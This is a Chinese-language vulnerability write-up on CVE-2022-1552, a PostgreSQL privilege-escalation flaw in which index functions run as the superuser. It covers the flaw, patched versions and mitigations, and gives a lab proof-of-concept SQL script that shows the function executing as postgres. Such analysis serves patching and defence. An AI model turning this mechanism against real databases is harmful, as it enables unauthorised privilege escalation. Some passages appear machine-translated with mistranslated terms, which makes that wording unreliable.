


# CVE-2022-1552 CWE-89&459 PostgreSQL 权限提升

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **IMMUTABLE 函数属性：**在 PostgreSQL 里，函数属性 `IMMUTABLE` 表示这个函数对同样的输入参数 永远返回相同的结果，而且结果不会依赖数据库的内容、会话状态或时间等外部因素。标记为 `IMMUTABLE` 的函数可以被优化器安全地做常量折叠、索引表达式使用或缓存结果，因此执行计划中可能在编译阶段就直接调用它并替换成常量值。这有助于性能优化，但如果函数实际上会依赖外部状态（比如访问表、使用 `current_user`），错误地声明为 `IMMUTABLE` 就会带来意料之外的行为甚至安全问题。
- **CWE-89: SQL Injection：**应用程序在构造 SQL 语句时没有正确验证或转义用户输入，导致攻击者能够插入恶意 SQL 片段，从而执行未授权的查询、修改或删除数据，甚至控制数据库系统。它是最典型的输入验证类漏洞之一。
- **CWE-459: Incomplete Cleanup：**系统或程序在操作完成后，没有对敏感资源（如临时文件、内存、缓存、会话信息）进行彻底清理，导致攻击者可能通过残留数据或状态信息获取机密内容、干扰后续操作或绕过安全控制。

## 漏洞原理

PostgreSQL 在执行某些高权限操作（如 `CREATE INDEX`、`REINDEX`、`CLUSTER`、`BRIN` 维护、`pg_amcheck` 等）时，安全受限模式和身份切换启用得太晚或根本没有启用，导致用户自定义函数可能在 超级用户或后台维护进程 身份下被调用，从而让攻击者通过在可写 schema 中伪造函数实现 特权提升。

## 漏洞定位


这是一个缺陷,涉及多个入口和相同的安全环境。 最典型的例子是， `src/backend/commands/indexcmds.c::DefineIndex()`:受影响的版本仅进入在打开目标表并转换索引表达式和上游后作为表主执行的限制性上下文,导致攻击者在不断折叠或表达规划时执行攻击者作为调用者(可能是超级用户)的功能。

```c
rel = table_open(relationId, lockmode);

/* Vulnerable versions continued parsing/planning index expressions here,
 * before switching to rel->rd_rel->relowner and enabling
 * SECURITY_RESTRICTED_OPERATION. */
namespaceId = RelationGetNamespace(rel);
```

此外,还存在类似的差距。 `index_concurrently_build()`， `validate_index()`， `reindex_index()`， `src/backend/commands/cluster.c::cluster_rel()`， `src/backend/access/brin/brin.c` BRIN 汇总/归纳路径 `src/backend/catalog/index.c`,还有 `contrib/amcheck/verify_nbtree.c::bt_index_check_internal()`o 这些位置的一个共同特点是它们不切换表格所有者或设置 `SECURITY_RESTRICTED_OPERATION` 在调用用户控制的索引表达式、 上游或运算符之前,

## 漏洞修复


升级到 PostgreSQL  10.21， 11.16， 12.11， 13.7， 14.3,或后来。 安全更新切换到表格所有者的身份并启用 `SECURITY_RESTRICTED_OPERATION` 在解析、规划或评价用户控制的索引表达式、上游、运算符和BRIN/amcheck召回之前 `DefineIndex()`， REINDEX， CLUSTER， 自动蒸发， 以及其他受影响的维护路径。

在升级之前,取消 `CREATE` 用于特权维护工作的计划,防止无信任的角色定义索引引用的函数或运算符,并在运行REINDEX、CLUSTER或作为超级用户进行手动维护之前检查表达式/部分索引。 不要在不受限制的超级用户会话中运行这些操作。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 10.0 改为 10.20
- 11.0 改为 11.15
- 12.0 改为 12.10
- 13.0 改为 13.6
- 14.0 改为 14.2

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 12.2，管理员为 postgres，密码为 postgres，已存在数据库 test，存在 PoC 代码 CVE-2022-1552-PoC.sql

```txt
CNA:NVD    Base Score:8.8 High    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test ，并运行 PoC 代码。在 Step 4 可以看到，索引在规划期仍以 postgres 身份执行，执行期才以表 owner 即 regress_sro_user 用户执行。



## PoC分析

```sql
-- 在每次调用时向客户端打印一条 NOTICE ，打印当前用户
-- 声明为 IMMUTABLE，这样优化器可能在规划阶段就提前调用它（常量折叠）
CREATE OR REPLACE FUNCTION sro_ifun(int) RETURNS int AS $$
BEGIN
  RAISE NOTICE 'sro_ifun(%) called by %', $1, current_user;
  RETURN $1;
END;
$$ LANGUAGE plpgsql IMMUTABLE;

-- 创建表 sro_tab 并修改所有者为 regress_sro_user
CREATE USER regress_sro_user;
CREATE TABLE sro_tab (a int);
ALTER TABLE sro_tab OWNER TO regress_sro_user;
INSERT INTO sro_tab VALUES (1), (2), (3);

-- 在 sro_tab 上创建一个带有 表达式列 和 谓词条件 的索引，这样会在建索引过程中多次调用 sro_ifun()
CREATE INDEX sro_idx ON sro_tab ((sro_ifun(a) + sro_ifun(0)))
  WHERE sro_ifun(a + 10) > sro_ifun(10);
```

函数被标记为 `IMMUTABLE`，所以优化器会在**生成执行计划之前**就把能算出来的常量先算掉（常量折叠/函数内联）。这里的常量包括：

- 索引表达式里的 `sro_ifun(0)`；
- 谓词里的常量 `sro_ifun(10)`。

这一阶段尚未“切换到表所有者”，因此这些调用以**会话用户 `postgres`** 身份执行。在进入建索引的核心步骤后，才切换到了表所有者。

## 参考链接


[NVD - CVE-2022-1552](https://nvd.nist.gov/vuln/detail/CVE-2022-1552)

[Make relation-enumerating operations be security-restricted operations. · postgres/postgres@a117ceb](https://github.com/postgres/postgres/commit/a117cebd638dd02e5c2e791c25e43745f233111b#diff-31e00d5e45bc257711547428e70409549588c73a57cb3676302efa26d24303de)

